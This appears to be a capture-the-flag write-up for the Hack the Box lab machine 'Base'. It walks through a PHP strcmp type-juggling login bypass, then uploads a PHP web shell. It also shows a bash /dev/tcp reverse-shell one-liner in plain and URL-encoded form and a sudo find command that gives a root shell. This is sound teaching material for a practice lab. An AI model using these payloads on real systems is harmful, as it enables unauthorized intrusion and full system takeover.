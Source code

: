 ```yaml
---
title: Base
date: 2024-03-09 10:00
categories: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
tags: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
---
```


# Overview
Base is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some web app enumeration and a unique type juggling with php. The foothold is accomplished after digging into a unique file and digging into a specific function. The privilege escalation is accomplished through a sudo exploitation due to a misconfiguration that allows us to run a specific linux binary as root. 

## Nmap Scan
sudo nmap -sS -Pn `<target ip>` -vvv 
* 22/tcp open  ssh  syn-ack ttl 63
    * OpenSSH 7.6p1 Ubuntu
* 80/tcp open  http  syn-ack ttl 63
    * Apache httpd 2.4.29 ((Ubuntu))

## Basic Enumeration
Nikto Scan:
- /: Server may leak inodes via ETags, header found with file /, inode: 99b0, size: 5e0a23270d210, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
- /upload.php?type=\"`<script>alert(document.cookie)</script>`: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- /login/: Directory indexing found.

Wfuzz Directory Enumeration
* "login"
* "assets"
* "forms"

* Under assets path:
    * "css"
    * "js"
    * "vendor"
    * "fonts"

* Under login path:
    * login.php
    * config.php
    * login.php.swp

The swap file is interesting, doing some further digging we find an article that helps explain what they are used for [here](https://www.techtarget.com/searchwindowsserver/definition/swap-file-swap-space-or-pagefile):
* Swap files record modifications made to the buffer, serving as a safety net in case of Vim or system crashes, facilitating the retrieval of those alterations. Furthermore, they prevent multiple instances of editors like Vim from concurrently modifying the same file.

We downloaded the swap file to our machine. Some of it contains machine code, but there are a good number of strings we can read. We can strip them out with "strings", and read the contents. 

* Examining this file, we can see how the web page is set up to evaluate the inputs for the login portal. 
    * the strcmp() function is used to compare the input string for username and password

```php
if (strcmp($username , $_POST['username']) == 0) {
 if (strcmp($password, $_POST['password']) == 0) {
```
* We can see that the username and password are both contained in `[]`. If we have the ability to control how these parameters are passed to the server, we can force them to be evaluated as an array, and since the restriction is not set to be `===`, we have the possibility of passing any string. 
    * Basically, if the data we pass is not empty, due to this bug in php, it will evaluate it to be true, and give us access. A more thorough explanation and video can be found [here](https://www.youtube.com/watch?v=idC5SAsKhlE) by `IppSec`.

To exploit this, we load up BurpSuite and get ready to intercept the login input.

* The idea is to utilize the comparison of our input to pass it as an array rather than string comparison
* We changed it to go from `username=admin&password=admin` to `username[]=admin&password[]=admin`
* This gives us acces, and we can see a page that allows us to upload a file. 

## Foothold
We can pass a simple php file to see if we have the ability to do code execution:
```php
<?php echo system($_REQUEST['cmd']);?>
```
- Looks like we can get commands to run, we can run id to get which user we are able to access.
    - www-data
- If we try to get a reverse shell through this method, we may get an error, would be better to swap it to a post request.
* We can send the following over to get a connection back:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.60/6666 0>&1'
```
We will need to url encode this so it is interpreted correctly by the server:
```bash
/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.60/6666+0>%261'
```
* We add the `+` for the spaces, and the `&` needs to be converted to `%26`, which is its equivalent. 

Now that we have access to the machine, we can check some files to see if we have any interesting documents. 
* One file has some credentials: `/var/www/html/login/config.php`
    * admin:thisisagoodpassword
* We can try to login over ssh to see if this works for admin, or the user on the box, `john`.

We now have ssh access, which is much more stable and very nice to have. We also now have access to `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/base/Base_User.png?raw=true)

## Local Enumeration
Running the command `sudo -l` will show us that we have the ability to run a binary as root: `/usr/bin/find`.

* We can check the `Gtfobins` site [here](https://gtfobins.github.io/) to see if this is possible to be abused to gain root.

## Privilege Escalation
Running this command will give us root access: `sudo find . -exec /bin/sh \; -quit `

* We have rooted the box, and can now get `root.txt`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/base/Base_Root.png?raw=true)